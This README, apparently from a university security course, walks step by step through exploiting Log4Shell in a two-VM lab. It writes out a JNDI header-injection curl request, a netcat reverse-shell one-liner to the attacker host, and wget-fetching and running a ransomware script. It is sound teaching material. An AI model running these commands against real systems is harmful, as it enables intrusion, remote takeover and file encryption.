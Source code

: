 # UNIVR - Fondamenti di Sicurezza e Privacy - project 2021

# UNIVR - Fondamenti di Sicurezza e Privacy - project 2021

*>> **This repository is for educational purpose only so do not use it on machines that are not yours** <<*
*>> **Do not run ransomware.sh except in your dedicated test virtual machine. Any file with the chosen extension will be encrypted, so be careful as you may lose your files** <<*

To simulate **CVE-2021-44228**[<sup>1</sup>](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), Log4j vulnerability also known as **Log4Shell**, you can follow this steps.

### General setup

 - Download and install two linux based VM.
 I chosed Kali Linux Virtual Box image[<sup>2</sup>](https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova)
 - Create a Network with NAT

 <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/VBox_NAT.png">
 
 - Set the Network to the new one for both VMs

 <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/VM_Network.png">

 - Run both VMs one after the other and run this command:
 `sudo apt-get update -y && sudo apt-get upgrade -y`
 - Download\* the Java SE Development Kit 8u181 (jdk1.8.0_181) from Oracle website [<sup>3</sup>](https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz) and install it in the *victim* VM
 *you need an Oracle account (it's free)

### Victim VM setup

- In the victim VM download the [Log4ShellVictim.jar](https://github.com/Fantantonio/Log4ShellVictim/blob/master/Log4ShellVictim.jar) and run it with the command `sudo java- jar /to/your/path/Log4ShellVictim.jar`. The default port is 8080
- Use `ifcongig` command to know your victim VM's IP, in my case is `192.168.0.5`

### Attacker VM setup

- Download the [JNDIExploit.v1.2.zip](https://github.com/black9/Log4shell_JNDIExploit/blob/main/JNDIExploit.v1.2.zip) in the *attacker* VM and unzip it with the command `unzipJNDIExploit.v1.2.zip`
- Run it with the following command: `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.0.4 -p 8888` where `192.168.0.4` is the attacker VM's IP and `8888` is the HTTP listener port. Consider that the LDAP server will listen to the `1389` port by default
- Run `nc -nvlp 1234` in the attacker VM to listen to the `1234` port with Netcat
- Get a reverse shell command like this one: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/f`\* note that `1234` is the port we set Netcat to listen to earlier
 \* you can use the [Revshell](https://www.revshells.com) website to build your own command
 - Run `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/f" | base64` to encode it in base64. Of course use your command replacing mine.
 The output should look something like this: `cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=`
 - Run the curl from the attacher VM like so: `curl 192.168.0.5:8080 -H 'X-Api-Version:${jndi:ldap://192.168.0.4:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=}’`
 Replace `192.168.0.5` with your victim VM's IP, `192.168.0.4` with your attacker VM's IP and `cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=` with your remote shell command base64 encoded.

Now you should see the vulnerability letting you as attacker run the command you injected in the request header and the remote shell ready where you set Netcat listen.

### A step further

- Download ransomware.sh file in `\var\www\html` folder of the attacker machine. Remember to edit the script adding your bot token, your telegram account id, the file extensions you want to encrypt and the string you want to write in the README.txt file will be generated for the victim
- Start apache in the attacker machine running `service apache2 start`
- Use the remote shell to download the ransomware file in the victim machine with the command: `wget 192.168.0.4/ransomware.sh` where `192.168.0.4` is the attacker VM's IP
- One more time use the remote shell to run it `sh ransomware.sh` and copy down the decryption key you'll receive in console as output if you want to be able to decrypt everything using the `decrypter.sh` file.

### Footnotes
[\[1\] https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
[\[2\] https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova](https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova)
[\[3\] https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz](https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz)
